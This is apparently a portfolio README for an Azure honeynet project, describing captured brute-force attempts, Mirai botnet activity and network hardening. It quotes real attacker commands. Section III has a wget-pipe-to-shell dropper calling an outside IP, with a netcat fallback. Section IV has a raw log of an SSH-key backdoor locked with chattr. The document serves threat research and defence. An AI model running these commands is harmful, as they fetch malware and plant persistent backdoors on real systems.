



# 🛡️ Global Threat Intelligence Node & Honeynet


## 📋 Executive Summary
Designed and deployed a high-interaction **Honeynet** (T-Pot Framework) on a hardened **Azure Virtual Machine**. The system acts as a decoy to lure, capture, and analyze real-world cyber attacks in a controlled environment. This project provides a live telemetry feed of global threat actor behavior, enabling the identification of emerging attack vectors, automated credential harvesting, and post-exploitation malware delivery.

**Key Metrics & Impact:**
* **Rapid Discovery:** The asset was targeted by automated botnets within minutes of deployment, recording **4,736 unauthorized connection attempts** to the management plane in the initial open-access testing phase.
* **Malware Capture:** Successfully captured and documented a live, fileless malware infection attempt attributed to the **Mirai Botnet**.
* **Proactive Hardening:** Mitigated 100% of unauthorized management probes by implementing **Zero-Trust Network Security Groups (NSGs)** and Source-IP Whitelisting at the network edge.

---

## 🗺️ I. Geographic Attack Mapping
Within 24 hours of deployment, the node captured real-time scanning and brute-force attempts from multiple international geographic regions, highlighting the extreme speed at which cloud assets are mapped by threat actors.


> *Dashboard visualization (Kibana) of inbound attack vectors, categorizing traffic by destination port and geographic origin.*

---

## 🎣 II. Credential Harvesting & Brute-Force Analysis
Utilizing the **Cowrie** high-interaction SSH/Telnet honeypot, the system captured thousands of automated dictionary attacks. 

### Credential Tag Clouds

> *Visual representation of the most frequently attempted username and password combinations. Note the high frequency of default credentials (`root`, `admin`) alongside targeted crypto-node names (`sol`, `solana`).*

### Targeted Infrastructure Sweeps

> *Log analysis revealed targeted sweeps looking for specific infrastructure, such as Solana cryptocurrency validators (`sol`, `validator`), demonstrating that modern botnets are financially motivated and highly specific.*

---

## 🦠 III. Initial Execution: Mirai Botnet Capture
Following a successful brute-force attack (`root/root`) by a South Korean IP address, the system captured the immediate post-exploitation keystrokes executed by the automated threat actor.



### The Cyber Kill Chain in Action:
1. **System Reconnaissance & Evasion:** The bot executed `/bin/./uname -s -v -n -r -m` using path obfuscation to bypass basic logging while fingerprinting the OS architecture.
2. **Fileless Execution (The Dropper):** The script attempted to navigate to a volatile memory directory (`/dev/shm`) and executed `wget -qO- http://196.251.107.133/bins/sin.sh | sh &`. This piped a malicious shell script directly into execution without saving it to disk.
3. **Redundancy:** Anticipating that `wget` might be uninstalled by security engineers, the bot immediately attempted a fallback connection using `nc` (Netcat) over TCP/3345.

### OSINT Attribution

> *Cross-referencing the extracted payload IP (`196.251.107.133`) using VirusTotal confirmed the infrastructure belongs to the **Mirai botnet**, corroborating the architecture-scanning behavior captured in the logs.*

---

## 🔬 IV. Advanced Forensics: Persistence & Defense Evasion
Extended monitoring captured advanced post-exploitation playbooks. One notable capture involved a distinct threat actor attempting to establish a persistent, unremovable backdoor using Linux file attributes and encoded Command & Control (C2) signaling.

**Raw Log Capture:**
```bash
chmod +x clean.sh; sh clean.sh; rm -rf clean.sh; chmod +x setup.sh; sh setup.sh; rm -rf setup.sh; mkdir -p ~/.ssh; chattr -ia ~/.ssh/authorized_keys; echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCqHrvnL...[truncated]... rsa-key-20230629" > ~/.ssh/authorized_keys; chattr +ai ~/.ssh/authorized_keys; uname -a; echo -e "\x61\x75\x74\x68\x5F\x6F\x6B\x0A"
